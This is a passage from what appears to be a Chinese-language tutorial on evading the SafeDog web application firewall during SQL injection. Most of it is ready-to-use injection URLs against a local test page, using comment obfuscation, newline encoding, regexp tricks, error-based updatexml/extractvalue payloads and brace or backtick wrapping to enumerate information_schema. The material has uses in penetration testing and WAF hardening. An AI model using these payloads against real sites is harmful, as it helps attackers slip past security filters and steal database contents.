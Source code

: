 ```url
http://127.0.0.1/test.php?id=1' /*!order*//*!by*/2%23
```

![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/10.png)

## 绕过union select查询

使用union xxx页面正常
![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/11.png)

但是用union和select放在在一起就被发现啦
![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/12.png)

在网上找了好一阵子,发现有大佬提供的payload使用正则表达式去绕过

```url
http://127.0.0.1/test.php?id=1'=/*!user () regexp 0x5e72*/--+
```

![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/13.png)

* 对于数字型注入,可以将其转换成浮点型
* 联合查询绕waf,%0a为换行符经过URL编码得到的,可以通过换行符进行绕过,
* 函数中可以插入任何混淆字符绕过waf
* 另外使用-1可以省去空格绕过waf

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,user--%0a()%23
```

![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/14.png)

基于报错信息的注入绕安全狗

```url
http://127.0.0.1/test.php?id=1' and /*!12345updatexml!*/(1,concat(0x7e,version()))%23
http://127.0.0.1/test.php?id=1' and /*!12345extractvalue!*/(1,concat(0x7e,version()))%23
```

## 绕过select from

使用大括号去绕过

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4From{information_schema.tables}
```

![](https://cdn.jsdelivr.net/gh/CNbysec/CNbysec.github.io/OSS/img/绕waf系列之绕安全狗/15.png)

使用反引号去绕过

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4 From`information_schema.tables`
```
